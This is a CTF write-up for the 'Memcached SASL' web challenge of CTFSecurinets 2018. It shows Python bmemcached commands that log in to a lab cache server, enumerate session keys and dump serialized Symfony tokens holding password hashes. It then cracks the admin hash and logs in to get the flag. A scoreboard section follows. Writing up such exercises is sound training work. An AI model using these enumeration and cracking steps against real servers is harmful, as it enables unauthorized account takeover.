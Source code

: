 <p align="center">
<img src="logo.png"/>
</p>

# CTFSecurinets Quals 2018 Writeup
This repository serves as a writeup for CTFSecurinets Final 2018

## Memcached SASL

**Category:** Web
**Points:** 299
**Author:** TheEmperors
**Description:**

> The Emperor worked in the development of a website in which, authenticated sessions should be logged in a cache server. So he developped this feature in a Memcached server. And to prevend anyone to connect to the Memcached server, he enabled the SASL authentication in the Memcached server. After he finished the development of this feature, The Emperor was fired from this team to another one in the same enterprise. The Emperor wanted to make a revenge on his chief. The Emperor remembred that he own only the memcached credentials and he want to get the admin credentials of the website. Can you help him to successfully authenticate using the admin credentials ? "SASL login=SASL password=securinets_SAAASLLL_hahaha_ok_Xd"
Link : http://192.168.1.101/

**Hint:**

> The Emperors said that keys stored in the Memcached server are an incremented integer

<p align="center">
<img src="resources/web-299-memcached_sasl/_description.PNG"/>
</p>

### Write-up
When visiting the link of the web application, we find out an authentication form :
<p align="center">
<img src="resources/web-299-memcached_sasl/1.PNG"/>
</p>

After reading the description, it seems that there is no way to bypass authentication without searching the credentials from the memcached server.

But when we tried to authenticate to the memcached server with netcat or telnet. We even tried dumping the memcached key with memcdump command but we failed. Because these commands doesn't require credentials. And in this task we have to authenticate to the memcached server using the given credentials.

So it smells a kind of programming web task.

We tried to authenticate to the memcached server using memcached library in PHP but we failed.

But hopefully, in Python, we found the bmemcached library (binary memcached). We installed it and we tested it and it worked like a charm:

```
pip install bmemcached
python -c "import bmemcached;client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd');client.set('key', 'value');print client.get('key');"
```

Output :
```
value
```

So after authenticating to this memcached server and writing and reading some data, we can continue solving this task.

After searching how to dump the memcached data, we found that there is no command that can did this in a binary memcached server (a memcached server in which we authenticated using a SASL credentials). So, if we don't know the keys, we can't did anything.

In the hint, the developper said that the keys stored in the Memcached server are an incremented integer. So we tried to read the key number 1 :
```
python -c "import bmemcached;client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd');print client.get('1');"
```

Output :
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
```

Nice ! This web application is based on the Symfony framework and the session stored in the memcached server contains the user information from the `UsernamePasswordToken` class object.

The username used here is ```simple``` and the password is ```2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5```. But these credentials doesn't works. Maybe this password is a hash.

We tried the easy solution by cracking this hash in crackstation.net and we found that this hash is the ```sha512(password)```. And the password value iss ```simple```.

So we tried this credentials:
```
Login=simple
Password=simple
```

We successfully authenticated but we found this message:
```
You are not an admin user !
```

We figured out that we only have tried to authenticate with a simple user and not with an administrator user. So we have to read all the memcached keys value in python:

```python
import bmemcached
client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd')
for i in range(50): print client.get(str(i))
```

Output :
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":756:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:716:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:19:"admin_is_theemperor";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"fe0468680d4f90bf7446e49a3c9100b490a8db06df47588320921a36f0b92703dc7284797bb391a766cbec7c92a9cffa7d1b535c7aa4d345788d0153a93a1ee6";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
None
... (many None)
None
```

So the interesting line is this line which contains the administrator credentials:
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":756:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:716:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:19:"admin_is_theemperor";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"fe0468680d4f90bf7446e49a3c9100b490a8db06df47588320921a36f0b92703dc7284797bb391a766cbec7c92a9cffa7d1b535c7aa4d345788d0153a93a1ee6";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
```

After cracking the password administrator we found this credentials:
```
Login=admin_is_theemperor
Password=a0000
```

Now, we authenticate using this credentials and we find the flag:
```
Congratulations ! your flag is Flag{Y0_M3mc4cH3d_W1tH_S4SL_4r3_h3LL_xD}
```

So the flag is : ```Flag{Y0_M3mc4cH3d_W1tH_S4SL_4r3_h3LL_xD}```.

___










# Scoreboard

This is the scoreboard and the ranking for the 5 teams that they solved at least one task in this CTF :

Summary:

<p align="center">
<img src="scoreboard/ALL.PNG"/>
</p>

Detailed :

<p align="center">
<img src="scoreboard/1.PNG"/>
</p>
<p align="center">
<img src="scoreboard/2.PNG"/>
</p>

If you need the Json file of the scoreboard, you can find it [scoreboard/jsonAdvanced.json](here)

